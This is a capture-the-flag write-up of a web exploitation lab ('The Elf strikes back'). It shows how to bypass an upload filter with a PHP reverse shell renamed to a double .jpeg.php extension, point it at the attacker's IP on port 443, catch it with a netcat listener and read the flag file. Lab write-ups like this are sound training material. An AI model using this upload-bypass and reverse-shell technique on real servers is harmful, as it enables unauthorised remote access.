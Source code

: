 # [Day 2] Web Exploitation - The Elf strikes back

> César Martínez | 19 December 2020

## Topics

- GET Parameters and URLs
- File Uploads
- Reverse Shells
- Reverse Shell Listeners

### 1. What string of text needs adding to the URL to get access to the uplooad page?
```
?id=ODIzODI5MTNiYmYw
```

### 2. What type of file is accepted by the site?
```
image
```
The image types that are accepted can be found in the source code of the page. They all have one thing in common; they are images.

### 3. In which directory are the uploaded files stored?
```
/uploads/
```
You can run a tool like gobuster to find this directory, but earlier on the dossier they mentioned this example directory.

### 4. What is the flag in `/var/www/flag.txt`?

In the upload page, we'll have to upload a php reverse shell script disguised as an image, and then listen to the conection with Netcat to gain access to the machine.\
The AttackBox that THM provides and Kali Linux provide a php reverse shell script in `/usr/share/webshells/php/` called `php-reverse-shell.php`. First we are going to copy the script into our directory:
```bash
cp /usr/share/webshells/php/php-reverse-shell.php ./shell.jpeg.php
```
We then need to edit the script. Below the starting comments we should se some variables being declared, we need to change the ones that are marked. The ip should be the one of the AttackBox and the port could be left as is but as stated in the dossier, we are going to use 443.

It should look something like this:
```php
$ip = '10.10.188.80';   //CHANGE THIS
$port = 443;    //CHANGE THIS
```
Once we have the script ready, we have to start our listener for port 443. For that we use the command given to us in the dossier:
```bash
sudo nc -lvnp 443
```
That is going to start the listener. Now we have to upload the script in the website. Make sure to show __All Files__ in case it doesn't appear in the file browser.\
Once uploaded, head to the uploads directory and click on the file we just uploaded. The moment we click our script we are going to get a reverse shell in the terminal where we were listening.\
With our new shell we just need to cat the flag in `/var/www/flag.txt` to finish the challenge.
